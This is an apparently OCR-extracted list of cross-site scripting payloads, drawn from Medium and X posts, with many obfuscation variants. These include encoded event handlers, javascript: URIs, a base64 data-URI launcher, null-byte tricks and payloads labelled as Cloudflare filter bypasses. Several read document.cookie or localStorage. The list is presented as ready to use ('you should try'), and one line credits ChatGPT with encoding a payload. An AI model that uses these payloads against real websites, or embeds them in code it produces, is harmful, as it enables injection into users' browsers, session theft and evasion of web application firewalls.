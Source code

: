 ```
<a href=[​]"​ onmouseover=prompt(1)//">XYZ</a>
```

pravinponnusamy.medium.com/xss-payloads-7…

```
<script //>//confirm('\uFF41\uFF4C\uFF45\uFF52\uFF54\u1455\uFF11\u1450')//</script //
```

```
<blink/
onmouseover=prompt(1)>OnMouseOver {Firefox & Opera}
```
8. <svg> <foreignObject width="100%" height="100%"> <body> <iframe src='javascript:confirm(10)'></iframe> </body> </foreignObject> </svg>

x.com/xsspayloads/st…

```
<script>var a=document.createElement("a");a.href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==";a.click();</script>
```

0xkayala.medium.com/30-encoded-xss…
Encoded by chatGPT
10. jaVasCript:/--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[/[]/+alert(1)//'>

ANOTHER XSS Payload you should try !!
```
<script>/&/-alert(1)</script>
<script>/&/-alert(1)</script>
```

%00%00%00%00%00%00%00<script>alert(1)</script> (1.Null bytes are output 2.There is no space character immediately before)

```
<sVg OnPointerEnter="location=javas+cript:ale+rt%2+81%2+9">

<bleh/onclick=top[/al/.source+/ert/.source]&Tab;``>click

<script>alert.call(null,1)</script> (alert.call(%20, "XSS");)

<script>confirm.call(null,1)</script>

<script>prompt.call(null,1)</script>

<script>alert.apply(null, [1])</script>
```

XSS CLOUDFLARE PAYLOAD

```
<svg%0Aonauxclick=0;[1].some(confirm)//
<svg onload=alert%26%230000000040"")>

<a/href=j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(1)&rpar;>

<svg onx=() onload=(confirm)(1)>

<svg onx=() onload=(confirm)(document.cookie)>

<svg onx=() onload=(confirm)(JSON.stringify(localStorage))>
Function("\x61\x6c\x65\x72\x74\x28\x31\x29")();

"><img%20src=x%20onmouseover=prompt%26%2300000000000000000040;document.cookie%26%2300000000000000000041;

```